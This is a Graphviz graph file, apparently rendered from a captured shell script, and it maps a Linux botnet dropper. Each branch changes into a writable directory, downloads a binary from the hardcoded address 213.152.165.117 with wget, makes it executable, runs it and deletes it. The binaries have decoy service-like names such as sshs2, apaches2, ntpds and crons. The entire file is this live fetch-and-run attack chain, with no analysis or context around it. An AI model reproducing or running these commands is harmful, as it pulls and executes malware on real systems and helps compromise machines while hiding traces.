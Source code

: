 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://213.152.165.117/system "];
10 -> 12 [label=";,"];
12 [label="chmod +x system "];
12 -> 14 [label=";,"];
14 [label="./system "];
14 -> 16 [label=";,"];
16 [label="rm -rf system "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://213.152.165.117/crons "];
28 -> 30 [label=";,"];
30 [label="chmod +x crons "];
30 -> 32 [label=";,"];
32 [label="./crons "];
32 -> 34 [label=";,"];
34 [label="rm -rf crons "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://213.152.165.117/openvpns "];
46 -> 48 [label=";,"];
48 [label="chmod +x openvpns "];
48 -> 50 [label=";,"];
50 [label="./openvpns "];
50 -> 52 [label=";,"];
52 [label="rm -rf openvpns "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://213.152.165.117/apaches2 "];
64 -> 66 [label=";,"];
66 [label="chmod +x apaches2 "];
66 -> 68 [label=";,"];
68 [label="./apaches2 "];
68 -> 70 [label=";,"];
70 [label="rm -rf apaches2 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://213.152.165.117/sshs2 "];
82 -> 84 [label=";,"];
84 [label="chmod +x sshs2 "];
84 -> 86 [label=";,"];
86 [label="./sshs2 "];
86 -> 88 [label=";,"];
88 [label="rm -rf sshs2 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://213.152.165.117/ntpds "];
100 -> 102 [label=";,"];
102 [label="chmod +x ntpds "];
102 -> 104 [label=";,"];
104 [label="./ntpds "];
104 -> 106 [label=";,"];
106 [label="rm -rf ntpds "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://213.152.165.117/screenss "];
118 -> 120 [label=";,"];
120 [label="chmod +x screenss "];
120 -> 122 [label=";,"];
122 [label="./screenss "];
122 -> 124 [label=";,"];
124 [label="rm -rf screenss "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://213.152.165.117/wgets "];
136 -> 138 [label=";,"];
138 [label="chmod +x wgets "];
138 -> 140 [label=";,"];
140 [label="./wgets "];
140 -> 142 [label=";,"];
142 [label="rm -rf wgets "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://213.152.165.117/pythonss "];
154 -> 156 [label=";,"];
156 [label="chmod +x pythonss "];
156 -> 158 [label=";,"];
158 [label="./pythonss "];
158 -> 160 [label=";,"];
160 [label="rm -rf pythonss "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://213.152.165.117/perlss "];
172 -> 174 [label=";,"];
174 [label="chmod +x perlss "];
174 -> 176 [label=";,"];
176 [label="./perlss "];
176 -> 178 [label=";,"];
178 [label="rm -rf perlss "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://213.152.165.117/gccss "];
190 -> 192 [label=";,"];
192 [label="chmod +x gccss "];
192 -> 194 [label=";,"];
194 [label="./gccss "];
194 -> 196 [label=";,"];
196 [label="rm -rf gccss "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://213.152.165.117/netcatss "];
208 -> 210 [label=";,"];
210 [label="chmod +x netcatss "];
210 -> 212 [label=";,"];
212 [label="./netcatss "];
212 -> 214 [label=";,"];
214 [label="rm -rf netcatss "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://213.152.165.117/sshdss "];
226 -> 228 [label=";,"];
228 [label="chmod +x sshdss "];
228 -> 230 [label=";,"];
230 [label="./sshdss "];
230 -> 231 [label=";,"];
}

